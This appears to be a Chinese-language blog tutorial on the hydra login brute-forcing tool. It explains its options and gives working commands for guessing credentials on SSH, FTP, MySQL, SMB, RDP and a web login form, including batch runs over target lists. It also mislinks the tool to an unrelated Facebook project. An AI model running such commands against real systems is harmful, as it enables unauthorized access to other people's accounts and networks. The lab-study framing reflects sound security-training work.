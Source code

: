 ```yaml
---
layout: post
title: hydra基础使用
categories: 安全工具
description: hydra基础使用
keywords: hydra基础使用
---
```


hydra基础使用

### 1、hydra/九头蛇简介

hydra 是一个端口穷举服务器的工具。

网址：`https://github.com/facebookresearch/hydra` 或者 `https://hydra.cc/`

kali里面就有

它支持的协议很多

```txt
adam6500 asterisk cisco cisco-enable cvs firebird ftp[s] http[s]-{head|get|post}
http[s]-{get|post}-form http-proxy http-proxy-urlenum icq imap[s] irc ldap2[s]
ldap3[-{cram|digest}md5][s] memcached mongodb mssql mysql nntp oracle-listener
oracle-sid pcanywhere pcnfs pop3[s] postgres radmin2 rdp redis rexec rlogin rpcap
rsh rtsp s7-300 sip smb smtp[s] smtp-enum snmp socks5 ssh sshkey svn teamspeak
telnet[s] vmauthd vnc xmpp
```

使用：

```bash
hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e ns] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-f] [-s PORT] [-S] [-vV] server service [OPT]`
```

使用参数说明

```txt
-R：继续从上一次进度接着破解
-S：大写，采用 SSL 链接
-s <PORT>：小写，可通过这个参数指定非默认端口
-l <LOGIN>：指定破解的用户，对特定用户破解
-L <FILE>：指定用户名字典
-p <PASS>：小写，指定密码破解，少用，一般是采用密码字典
-P <FILE>：大写，指定密码字典
-e <ns>：可选选项，n：空密码试探，s：使用指定用户和密码试探
-C <FILE>：使用冒号分割格式，例如“登录名:密码”来代替-L/-P 参数
-M <FILE>：指定目标列表文件一行一条
-o <FILE>：指定结果输出文件
-f：在使用-M 参数以后，找到第一对登录名或者密码的时候中止破解
-t <TASKS>：同时运行的线程数，默认为 16
-w <TIME>：设置最大超时的时间，单位秒，默认是 30s
-v / -V：显示详细过程
server：目标 ip
service：指定服务名，支持的服务和协议：telnet ftp pop3[-ntlm] imap[-ntlm] smb smbnt http[s]-{head|get} http-{get|post}-form http-proxy cisco cisco-enable vnc ldap2 ldap3 mssql mysql oracle-listener postgres nntp socks5 rexec rlogin pcnfs snmp rsh cvs svn icq sapr3 ssh2 smtp-auth[-ntlm] pcanywhere teamspeak sip vmauthd firebird ncp afp 等等
OPT可选项
```

### 2、使用

例子：

```bash
hydra -l user -P passlist.txt ftp://192.168.0.1
hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN
hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
hydra -l admin -p password ftp://[192.168.0.0/24]/
hydra -L logins.txt -P pws.txt -M targets.txt ssh
```

可以在渗透进入内网了之后，在内网里面访问其他服务或者服务器使用。

下面都是靶机测试的截图，仅供参考学习。

#### 2.1 穷举ssh服务

ssh服务：专门为远程登录会话和其他网络服务(例如:rsync,ansible)提供的安全性协议

```python
hydra -L users.txt -P password.txt -t 1 -vV -e ns 192.168.1.104 ssh -o ssh.txt -f

"""
-L 用户字典文件 
-P 密码字典文件
-t 线程数 
-vV 详细信息 
-e ns 使用空口令使用指定用户和密码试探 
192.168.1.104 你要穷举的 ip 
ssh 是服务
-o 保存文件
-f 如果找到马上中断扫描
"""
```

ssh服务的两种连接写法

1. ssh://192.168.1.104
2. 192.168.1.104 ssh

查看SSH服务靶机的端口是否打开

```bash
Nmap -P 22 192.168.3.12
```

端口开放，可以进行爆破

```bash
hydra -l root -P /home/kali/top100password.txt -e ns -vV -t 1 -f 192.168.3.12 ssh
```

![穷举SSH](/images/blog/img/hydra/ssh.png)

#### 2.2 穷举FTP服务

FTP服务：FTP是一种上传和下载用的软件。用户可以通过它把自己的PC机与运行FTP协议的服务器相连，访问服务器上的程序和信息。

```bash
hydra -l c5moon -P /home/kali/top100password.txt -e ns -vV 192.168.3.15 ftp
```

![穷举FTP](/images/blog/img/hydra/ftp.png)

#### 2.3 穷举MYSQL服务

MySQL：数据库

```bash
hydra -l root -P /home/kali/top100password.txt -e ns -vV 192.168.3.11 mysql
```

![穷举MYSQL](/images/blog/img/hydra/mysql.png)

#### 2.4 穷举smb服务

smb服务：用于在计算机间共享文件、打印机、串口等，电脑上的网上邻居由它实现。

```bash
hydra -l administrator -P /home/kali/top100password.txt -e ns -vV 192.168.3.11 smb -o smb.txt
```

![穷举smb](/images/blog/img/hydra/smb.png)

还可以批量穷举

```bash
hydra -L user.txt -P /home/kali/top100password.txt -M ip.txt smb  -o smb.txt
```

![批量穷举smb](/images/blog/img/hydra/smb2.png)

#### 2.5 穷举rdp服务

rdp服务：远程桌面

```bash
hydra -L user.txt -P /home/kali/top100password.txt -M ip.txt rdp  -o rdp.txt
```

![批量穷举rdp](/images/blog/img/hydra/rdp.png)

#### 2.5 穷举HTTP服务

```bash
hydra -l admin -P top100password.txt -vV -f www.c1moon.com http-post-form "/admin/index.php:user=^USER^&ps=^PASS^&action=login:login-error"
```

![批量穷举HTTP](/images/blog/img/hydra/http.png)